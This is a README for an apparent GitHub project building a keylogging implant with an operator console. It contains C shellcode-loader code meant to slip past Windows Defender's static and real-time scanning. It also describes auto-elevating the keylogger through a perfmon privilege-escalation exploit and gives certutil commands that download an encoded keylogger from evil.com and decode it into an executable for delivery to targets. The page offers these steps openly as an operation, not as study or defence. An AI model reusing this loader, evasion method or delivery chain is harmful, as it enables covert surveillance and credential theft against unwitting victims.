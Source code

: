 ## Beta Development 

All files relevant to the development of this project can be found here. 

The directory structure is as follows.

```
└── Beta
    ├── archivist.py
    ├── assets
    │   ├── chroma.py
    │   ├── __init__.py
    │   ├── __init__.pyc
    │   ├── main.py
    │   ├── README.md
    │   ├── tests
    │   │   ├── __init__.py
    │   │   └── upload_test.py
    │   └── uploader
    │       ├── base.py
    │       ├── catbox.py
    │       ├── fileio.py
    │       ├── __init__.py
    │       ├── mixtape.py
    │       └── uguu.py
    ├── binary_to_hex.py
    ├── console.py
    ├── exploits
    │   ├── AV-Evasion
    │   │   ├── AVWinD.exe
    │   │   └── windefexe.c
    │   └── Priv-Esc
    │       ├── ExamplePayload
    │       │   ├── Payload.cpp
    │       │   ├── Payload.exe
    │       │   └── Readme.md
    │       ├── PerformanceMonitorVolatileEnvironmentLPE
    │       │   ├── c_cpp_properties.json
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.cpp
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.vcxproj
    │       │   └── PerformanceMonitorVolatileEnvironmentLPE.vcxproj.filters
    │       ├── PerformanceMonitorVolatileEnvironmentLPE.sln
    │       └── README.md
    ├── README.md
    └── Scripts
        ├── helper.bat
        ├── README.md
        ├── shell.py
        └── shell.vbs

```
### About

`archivist.py` Is the main keylogging implant.
`console.py` Will be Archivists handler, facilitating comms between the implant
and operator.

These files are in active development.

The `binary_to_hex.py` file is here because it will potentially be incorperated into the way the
keylogger is going to be deployed. If you go to the `exploits/AV-Evasion` directory in this repo there will be a C
file there the contents of which look a little like those  below.

```
#include <Windows.h>
#include <rc4.h>

// The encrypted code allows us to get around static scanning
unsigned char buf[] = 
"\x67\xc6\xe9\xe7\x07\x0a\x37\x3b\x63\xf0\xfd\x02\xc3\x23\xcd" // Truncated 
"\xf3\xbe\x80\x69\x18\x24\xb3\xf9\x96\x3e";		       // Truncated 


int main() {
  int lpBufSize = sizeof(int) * 700;
  LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT, 0x00000040);
  memset(lpBuf, '\0', lpBufSize);

  HANDLE proc = OpenProcess(0x1F0FFF, false, 4);
  // Checking NULL allows us to get around Real-time protection
  if (proc == NULL) {
    RC4("vXJDRPBUBnXKFphOMNzDZTCjnpbYhYDIMPBoYGotFWsBegm", buf, (char*) lpBuf, 700);
    void (*func)();
    func = (void (*)()) lpBuf;
    (void)(*func)();
  }

  return 0;
}
```

The payload is represented by the shell code you can see above. This 
shell code can be replaced by custom shell code. Which is what we are going to 
do. 

Once the main logger file has been compiled we will use the `binary_to_hex.py`
script to get a representation of the binary data in hex/shell code. Running
`use windows/windows_defender_exe` in `msfconsole` and setting the payload, to
our custom shell code we will end up with an executable that will attempt to 
make it harder for Windows Defender to get in the way of our keylogging operations.

Of course the keylogger has some anti-forensic and AV evasion routines
itself but a little more might be helpful.


Also in the `exploits` directory can be found a C++ file and some related project files.
This is a privilege escalation exploit originally developed by Martin Fischer of Bytecode77.
Whom you can find on github by clicking [here](https://github.com/bytecode77) and
online over at his [website](https://bytecode77.com). (I suggest checking both out
he's got some really cool projects there.)

The exploit makes it so our binary keylogger file gets auto-elevated through Windows Volatile Environment and
perfmon.exe. 


On the question of how to get the malware to the target, i will leave that up
to your imagination. However `Magic Unicorn Attack Vector` by [Dave Kennedy](https://twitter.com/HackingDave)
from [TrustedSec](https://trustedsec.com) has the ability to encode a binary as cert file.

`python unicorn.py <path_to_payload/exe_encode> crt`

The beauty of this is that the `certutil` tool on Windows can be used to both download and
restore the encoded files back to `exe`. If you're able to run:

```
certutil -urlcache -split -f http://evil.com/keylogger.crt keylogger.crt
certutil -decode keylogger.crt keylogger.exe
```

Through remote code execution, or vector of your preference this would be a pretty effective way of delivering the malware.   

